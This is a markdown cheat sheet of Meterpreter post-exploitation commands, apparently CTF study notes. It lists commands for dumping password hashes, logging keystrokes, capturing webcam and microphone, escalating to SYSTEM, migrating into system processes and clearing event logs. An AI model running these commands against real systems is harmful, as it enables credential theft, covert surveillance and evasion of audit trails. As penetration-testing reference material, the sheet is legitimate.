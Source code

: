  `getpid` -> `ps`
`help` - different results based on OS, components, and connections

#### Core commands
`background`, `exit`
`guid` - get the session Globally Unique Identifier
`info MODULE` - show info on a Post module
`irb` - interactive Ruby shell
`load EXT` - load meterpreter extension
`run EXPLOIT_PATH/MODULE` - execute script or post module
`migrate` - migrates meterpreter to another process 
> (services.exe, wininit.exe, svchost.exe, lsm.exe, lsass.exe, and winlogon.exe)

#### File system:
`search -f  REGEX_PATTERN`
`cd, ls, pwd, edit, cat, rm, search, upload, download`

#### Networking:
`arp` - displays host ARP cache
`ifconfig`
`netstat` - display network connections
`portfwd` - forwards a local port to a remote service
`route` - view and modify routing table

#### System:
`clearev` - clear event logs
`getuid` - shows the user that meterpreter is running as
`kill`, `pkill` - by number, by name
`shell` - drops into system command shell
`execute, getpid, sysinfo, ps, reboot, shutdown`

#### Other:
i`dletime` - number of seconds the remote user has been idle
`keyscan_dump` - dump keystroke buffer
`keyscan_start`, keyscan_stop
`screenshare, screenshot`
`record_mic, webcam_list, webcam_snap`
`webcam_chat` - starts video chat
`webcam_stream` - plays video stream from specified webcam
`getsystem` - attempts elevating privileges to local system
`hashdump` - dump content of the SAM (Security Account Manager) database stored in NTLM (New Tech LAN Manager) format

#### Example Post-Exploitation commands:
`help`
`meterpreter > getuid` -> `NT AUTHORITY\SYSTEM` = admin on windows
`ps` -> `migrate XXX` -> `keyscan_start` -> `keyscan_stop` -> `keyscan_dump` (migrate to word.exe to catch keystrokes)
`hashdump`
`search -f *flag*.txt`
`shell` -> CTRL-Z to return to meterpreter